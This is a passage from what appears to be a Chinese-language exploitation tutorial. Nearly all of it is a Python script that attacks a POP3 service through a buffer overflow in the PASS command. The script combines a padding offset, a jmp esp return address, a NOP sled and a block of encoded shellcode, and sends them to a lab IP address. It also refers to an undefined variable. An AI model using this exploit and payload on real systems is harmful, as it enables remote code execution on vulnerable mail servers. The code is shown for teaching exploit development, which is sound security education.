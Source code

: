 有了前面生成的有效负载，让我们创建一个 Python 脚本来引发利用。我们将使用之前发现的`jmp esp`的位置，通过`mona`脚本。还应该注意，由于有效负载已编码，将用于解码的几个字节，还将用于填充的几个字节：

```py
#!/usr/bin/python    
import socket        
buffer=["A"]    
counter=100
buf =  ""
buf += "\xd9\xc8\xbd\xad\x9f\x5d\x89\xd9\x74\x24\xf4\x5a\x33"
buf += "\xc9\xb1\x52\x31\x6a\x17\x03\x6a\x17\x83\x6f\x9b\xbf"
buf += "\x7c\x93\x4c\xbd\x7f\x6b\x8d\xa2\xf6\x8e\xbc\xe2\x6d"
buf += "\xdb\xef\xd2\xe6\x89\x03\x98\xab\x39\x97\xec\x63\x4e"
buf += "\x10\x5a\x52\x61\xa1\xf7\xa6\xe0\x21\x0a\xfb\xc2\x18"
buf += "\xc5\x0e\x03\x5c\x38\xe2\x51\x35\x36\x51\x45\x32\x02"
buf += "\x6a\xee\x08\x82\xea\x13\xd8\xa5\xdb\x82\x52\xfc\xfb"
buf += "\x25\xb6\x74\xb2\x3d\xdb\xb1\x0c\xb6\x2f\x4d\x8f\x1e"
buf += "\x7e\xae\x3c\x5f\x4e\x5d\x3c\x98\x69\xbe\x4b\xd0\x89"
buf += "\x43\x4c\x27\xf3\x9f\xd9\xb3\x53\x6b\x79\x1f\x65\xb8"
buf += "\x1c\xd4\x69\x75\x6a\xb2\x6d\x88\xbf\xc9\x8a\x01\x3e"
buf += "\x1d\x1b\x51\x65\xb9\x47\x01\x04\x98\x2d\xe4\x39\xfa"
buf += "\x8d\x59\x9c\x71\x23\x8d\xad\xd8\x2c\x62\x9c\xe2\xac"
buf += "\xec\x97\x91\x9e\xb3\x03\x3d\x93\x3c\x8a\xba\xd4\x16"
buf += "\x6a\x54\x2b\x99\x8b\x7d\xe8\xcd\xdb\x15\xd9\x6d\xb0"
buf += "\xe5\xe6\xbb\x17\xb5\x48\x14\xd8\x65\x29\xc4\xb0\x6f"
buf += "\xa6\x3b\xa0\x90\x6c\x54\x4b\x6b\xe7\x9b\x24\x89\x67"
buf += "\x73\x37\x6d\x99\xd8\xbe\x8b\xf3\xf0\x96\x04\x6c\x68"
buf += "\xb3\xde\x0d\x75\x69\x9b\x0e\xfd\x9e\x5c\xc0\xf6\xeb"
buf += "\x4e\xb5\xf6\xa1\x2c\x10\x08\x1c\x58\xfe\x9b\xfb\x98"
buf += "\x89\x87\x53\xcf\xde\x76\xaa\x85\xf2\x21\x04\xbb\x0e"
buf += "\xb7\x6f\x7f\xd5\x04\x71\x7e\x98\x31\x55\x90\x64\xb9"
buf += "\xd1\xc4\x38\xec\x8f\xb2\xfe\x46\x7e\x6c\xa9\x35\x28"
buf += "\xf8\x2c\x76\xeb\x7e\x31\x53\x9d\x9e\x80\x0a\xd8\xa1"
buf += "\x2d\xdb\xec\xda\x53\x7b\x12\x31\xd0\x8b\x59\x1b\x71"
buf += "\x04\x04\xce\xc3\x49\xb7\x25\x07\x74\x34\xcf\xf8\x83"
buf += "\x24\xba\xfd\xc8\xe2\x57\x8c\x41\x87\x57\x23\x61\x82"
buffer='A'*2606 + '\x8f\x35\x4a\x5f' + "\x90"*8 +buf

if 1:    
   print"Fuzzing PASS with %s bytes" %    len(string)    
   s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)    
   connect=s.connect(('192.168.250.158',110))    
   data=s.recv(1024)    
   s.send('USER root \r\n')        
   data=s.recv(1024)
   print str(data)    
   s.send('PASS    ' + buffer + '\r\n')    
   #data=s.recv(1024)
   #print str(data)    
   print "done"
   #s.send('QUIT\r\n')        
   s.close()    

```
